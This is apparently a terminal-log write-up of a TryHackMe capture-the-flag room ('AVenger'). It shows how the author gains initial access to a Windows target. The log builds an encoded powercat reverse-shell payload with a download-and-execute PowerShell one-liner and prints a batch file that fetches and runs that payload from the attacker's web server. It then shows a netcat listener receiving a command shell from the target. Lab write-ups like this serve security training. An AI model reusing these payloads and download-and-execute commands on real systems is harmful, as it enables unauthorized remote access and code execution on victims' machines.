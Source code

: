 ┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ LHOST=10.9.30.202
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ LPORT=49731      
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ rshell=rs-49731.txt
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > ./$rshell                                   
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ ls
calculator.bat  ntlm_theft  powercat.ps1  req.txt  rev_shell.nim  rs-49731.txt  Screenshot_2024-06-26_06_58_31.png  test.bat  test.xt  t.go
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ cat rs-49731.txt 
ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzACkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQByAHMACgAgACAAIAAgAGkAZgAo..                                                                                                                                                                                                                                            

┌──(duke㉿kali)-[/Documents/THM_AVenger]
└─$ cat getexp.bat  
START /B powershell -c $code=(New-Object System.Net.Webclient).DownloadString('http://10.9.30.202:9000/shell-49731.txt');iex 'powershell -E $code'
                                                                                                                                                                                                                                            
### run web server on port 9000 for download RS and Upload getexp.bat run RS listener on port 49731

## Get initial Access

┌──(duke㉿kali)-[~]
└─$ nc -lvnp 49731
listening on [any] 49731 ...
connect to [10.9.30.202] from (UNKNOWN) [10.10.156.71] 49871
Microsoft Windows [Version 10.0.17763.4499]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\

07/25/2023  02:58 PM               533 .htaccess
06/29/2023  11:09 AM    <DIR>          0cdbb62efcb829a78821aac0e9
11/14/2018  06:56 AM    <DIR>          EFI
05/13/2020  05:58 PM    <DIR>          PerfLogs
11/26/2023  02:56 PM    <DIR>          Program Files
06/27/2023  08:51 AM    <DIR>          Program Files (x86)
06/30/2023  07:52 AM    <DIR>          Users
07/10/2023  07:24 AM    <DIR>          Windows
07/04/2023  10:12 AM    <DIR>          xampp
               1 File(s)            533 bytes
               8 Dir(s)  10,905,255,936 bytes free
